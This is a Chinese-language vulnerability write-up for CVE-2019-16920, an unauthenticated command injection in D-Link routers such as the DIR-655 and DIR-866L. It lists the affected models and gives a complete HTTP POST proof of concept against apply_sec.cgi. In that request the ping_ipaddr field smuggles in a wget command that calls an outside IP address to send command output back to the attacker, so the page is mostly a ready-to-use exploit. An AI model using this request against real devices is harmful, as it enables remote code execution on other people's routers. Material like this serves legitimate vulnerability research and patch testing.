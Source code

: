 ```yaml
---
title: （CVE-2019-16920）D-Link rce
id: zhfly3386
---
```


# （CVE-2019-16920）D-Link rce

## 一、漏洞简介

D-Link设备中出现未经身份验证的命令注入漏洞(FG-VD-19-117/CVE-2019-16920)，该漏洞可造成远程代码执行。

## 二、漏洞影响

DIR-655 ，DIR-866L，DIR-652，DHP-1565，DIR-855L，DAP-1533，DIR-862L，DIR-615，DIR-835，DIR-825等

## 三、复现过程

### poc

> 攻击者可以利用该漏洞将任意字符串发送到“PingTest”网关接口来实现命令注入。

```
POST /apply_sec.cgi HTTP/1.1
Host: 192.168.232.128
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: vi-VN,vi;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 131
Connection: close
Referer: http://192.168.232.128/login_pic.asp
Cookie: uid=1234123
Upgrade-Insecure-Requests: 1 `html_response_page=login_pic.asp&action=ping_test&ping_ipaddr=127.0.0.1%0awget%20-P%20/tmp/%20http://45.76.148.31:4321/?$(echo 1234)` 
```

“该漏洞始于一次错误的身份验证过程。当我们要进入管理页面时，需要执行登录操作。此时，我们会对`apply_sec.cgi`页面发出`POST`请求，其中包含一个操作`ping_test`。研究后发现，我们可通过参数`ping_ipaddr`执行命令注入。虽然响应是返回登录页面，但操作`ping_test`仍然执行了，我们通过参数`ping_ipaddr`注入的命令`echo 1234`成功执行，并将结果发送回我们的服务器。”

![image](../img/d7f89453ba8dd9e3fe1e631544d334ab.png)